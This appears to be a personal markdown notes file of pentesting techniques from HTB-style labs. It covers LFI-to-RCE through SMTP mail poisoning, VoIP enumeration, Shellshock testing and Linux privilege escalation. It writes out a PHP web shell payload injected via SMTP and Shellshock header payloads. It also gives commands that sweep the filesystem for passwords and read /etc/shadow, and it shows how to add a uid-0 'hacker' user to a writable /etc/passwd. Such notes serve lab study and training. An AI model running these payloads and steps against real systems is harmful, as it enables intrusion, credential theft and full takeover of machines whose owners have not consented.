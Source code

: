 Will organize things along the way 😌

When port 25 is open, and we have found an LFI on the server, then we can perform LFI2RCE through SMPT Log Poisoning. There are two ways (as far as I know) to do it. I'm going to
cover the one I have experience with.

First, read /etc/passwd through LFI and get interesting users. Then, connect to SMTP with

```
telnet <ip address> 25 (nc should work too)
```
Verify the users like so:
```
VRFY $user@localhost
```
If we get back

252 2.0.0 $user@localhost

Then we are good and we can syntax the malicious mail
```
mail from: temp
rcpt to: $user@localhost
data
Subject: Bruh
<?php echo system($_REQUEST['cmd']); ?>
.
```
Then we can go ahead and close our connection with ```quit```. Now, this mail is stored in the user's /var/mail file. Since we added a valid php script in the mail, it was passed
into the file, and we can freely use the cmd parameter to execute commands in the system and have it echo them back to us. Now we can pass e.g. a reverse shell.

References:
https://janithmalinga.github.io/redteam/ctf/2020/02/12/Using-LFI-and-SMTP-to-get-a-Shell.html
https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/ (the other way is specified here)
https://www.youtube.com/watch?v=XJmBpOd__N8

-------------------------------------------------------------------------

Beep from HTB had a possible RCE exploit which was based on VoIP. For now I don't know the whole concept, but I think I understand a general way of attacking VoIP. Essentially,
devices in a network are given an extension, i.e. a number by which they can be identified by the PBX server. So we try to find the extensions that are open, and attack them. In
a real-life scenario we probably intercept the traffic during the authentication phase and dump the creds, in boxes not really 😩 (unless bots exist)
https://www.exploit-db.com/docs/english/18136-paper-enumerating-and-breaking-voip.pdf


I'm gonna let this nicely written piece of text do the explanation for me
```
When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request. Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked." and other methods of handling web server requests are often used. There are a number of online services which attempt to test the vulnerability against web servers exposed to the Internet.
```
TLDR if cgi-bin exists, then a possible entry point is shellshock. We can try testing for this manually by changing the headers to ```() { :;}; echo; echo 1```
Notice the second echo. It might be necessary for the exploit to work and write out the proper output. Another way we can check is though the nmap script engine
```
nmap -sV -p<ports> --script http-shellshock --script-args uri=<path>,cmd=ls <target>
```
Some PointsOfInformation. It may be necessary to execute a script by calling its absolute path

```
() {:;}; echo; /bin/ls
```

References:
https://nmap.org/nsedoc/scripts/http-shellshock.html
https://en.wikipedia.org/wiki/Shellshock_(software_bug)
https://github.com/opsxcq/exploit-CVE-2014-6271
https://www.youtube.com/watch?v=IBlTdguhgfY


------------------------------------------------------------

If we gain access to a webserver (I'd say this applies more to low priv
access), and the machine is running PHP and a database, then we can search
for credentials to connect to said database. We could try something like:
```
grep -r <pattern-here> ./*
```
For the pattern we can use words like password, database, username, and once
we find an interesting one, we can search the file from which it came from.


## Privilege Escalation

### Enumeration

#### System Enumeration
`uname` is a linux command that prints system information. Different flags can be used, but for convenience sake use -a for all. Different files that can also give system information are */proc/version* and */etc/issue*
To get information on CPU architecture, run `lscpu`. Informations like sockets and core counts can determine whether exploits can be used or not.
To list services, run `ps aux`.

#### User Enumeration
Two commands to get the current user are
```
whoami
id
```
Of these, id is better because it gives more information about the gid of the user, and the groups he belongs in.
To get the commands the user can run as root, we run `sudo -l`
To get all the users in a system, we can read the */etc/passwd* file. We can get them with
`cut /etc/passwd -d : -f 1` (yup you don't have to cat and pipe)
Check the permissions of some files, like */etc/passwd* and */etc/groups*
Run ``history`` to get previous commands

#### Network Enumeration
To identify open ports and communication between the host system and other machines, run `netstat -ano`

### Exploitation

#### Kernel
To identify kernel version, run `uname -a` as listed above, and paste the version to google. Another way is through [linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester), which automatically identifies CVEs, so it can find them. Below are some interesting links on linux kernel exploits:
-https://chao-tic.github.io/blog/2017/05/24/dirty-cow
-https://github.com/xairy/linux-kernel-exploitation

#### Passwords
To search for files with passwords potentially in them, execute the below commands
```
grep --color=auto -rin PASSWORD / 2> /dev/null
find / -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```
We can modify them based on what we want. We can change the path from which they start (e.g. '/', '.', '/var/www/html;, '/opt', ...) or the pattern they search for (PASSWORD, PASSWORD=, PASS=, ...)
To automate the process we can use tools like linpeas.
**NOTE!** We can also search for passwords on binary files with `strings`

#### File Permissions

Depending on the OS the **/etc/passwd** & **/etc/shadow** files may be different. We can view their permission with these commands
```
#Passwd equivalent files
ls -l /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
ls -l /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
```
The important things to watch out is if **/etc/passwd** is writeable for a user or group we have access to, and if **/etc/shadow** is similarly writeable.
If /etc/passwd is writeable, we can add our own user, and we can give him root permissions by exploiting the [/etc/passwd syntax](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/). We definitely want to give him a uid and gid of 0, and **/root** as home dir. So we get this line `hacker:HASH_HERE:0:0:Hacker:/root:/bin/bash`. We can use one of the below lines to generate a valid hash
```
openssl passwd -1 -salt pass pass
mkpasswd -m SHA-512 pass
python2 -c 'import crypt; print crypt.crypt("pass", "$6$pass")'
```
So we get the line `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`
We can also add a line with no password hash `echo 'hacker::0:0:Hacker:/root/bin/bash`, remove the x from the root user, or change our user's uid, gid, and home fields. Be careful however as this decreases the security of the system

If **/etc/shadow** is readable, then we have the hashes of the users and we can easily crack them with **hashcat** or **JtR**. View [this](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/) link to learn more on that. To identify the hash mode for the tools, use [hashid](https://github.com/psypanda/hashID)

#### Sudo Shell Escaping

One of the most important commands when privescing is `sudo -l`, showing the list of allowed commands for the invoking user on the host. The best way to exploit the binaries shown is with [gtfobins](https://gtfobins.github.io/). If something doesn't appear there, then we google it.



